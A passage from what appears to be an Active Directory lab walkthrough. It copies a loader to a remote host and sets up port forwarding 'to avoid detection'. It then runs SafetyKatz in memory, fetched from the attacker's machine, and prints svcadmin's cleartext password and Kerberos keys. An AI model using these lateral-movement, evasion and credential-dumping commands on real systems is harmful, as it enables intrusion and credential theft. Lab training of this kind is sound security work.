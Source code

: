 Copy the Loader.exe to dcorp-mgmt:

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:

```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67"
```

We're using the $null variable to address output redirection issues.\


To run SafetyKatz on dcorp-mgmt, we will download and execute it in-memory using the Loader. Run the following command on the reverse shell:

```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```

```powershell
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```
